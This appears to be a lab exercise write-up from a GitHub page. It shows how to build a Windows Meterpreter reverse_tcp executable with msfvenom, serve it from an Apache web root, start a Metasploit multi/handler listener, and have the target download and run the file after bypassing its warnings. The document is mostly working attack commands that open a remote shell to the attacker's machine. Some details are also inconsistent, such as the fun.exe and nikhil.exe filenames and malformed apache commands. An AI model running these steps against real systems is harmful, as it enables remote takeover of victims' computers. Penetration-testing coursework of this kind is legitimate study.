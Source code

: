 ### PROGRAM:

Find the attackers ip address using ifconfig

### Output:

<img width="732" height="498" alt="image" src="https://github.com/user-attachments/assets/f0b21e63-c196-4f8c-9cf4-c57bf565aa07" />


Create a malicious executable file fun.exe using msenom command ``` msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > nikhil.exe```

### Output:

<img width="917" height="244" alt="image" src="https://github.com/user-attachments/assets/e0c1c121-7bf8-4db7-9636-c464a5893f83" />



copy the nikhil.exe into the apache ```/var/www/html ```folder

<img width="409" height="122" alt="image" src="https://github.com/user-attachments/assets/bf91f50e-ed72-49ce-91b6-68b8f9751ae4" />
<img width="311" height="65" alt="image" src="https://github.com/user-attachments/assets/b72bc5ed-aefc-4229-be0e-8990f59cb038" />



Start apache server ```sudo systemctl apache2 start``` 
Check the status of apache2 ```sudo apache2 status```

<img width="809" height="385" alt="Screenshot 2025-09-29 083722" src="https://github.com/user-attachments/assets/b193bd17-d388-4ea2-885d-1338913f62b7" />



Invoke msfconsole:

<img width="642" height="648" alt="image" src="https://github.com/user-attachments/assets/24e92ff8-eda2-412d-a045-365ee9e44697" />


Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

<img width="754" height="497" alt="image" src="https://github.com/user-attachments/assets/72c1356d-0d76-4d8d-9517-313e78b7f361" />


Starting a command and control Server ```use multi/handler``` ```set PAYLOAD windows/meterpreter/reverse_tcp``` ```set LHOST 0.0.0.0``` ```exploit```

### Output 
<img width="539" height="107" alt="image" src="https://github.com/user-attachments/assets/b4004be8-5d93-4140-b3d8-3d208811e2c5" />


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: ```http://192.168.1.2/fun.exe``` The file "fun.exe" downloads.

Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit

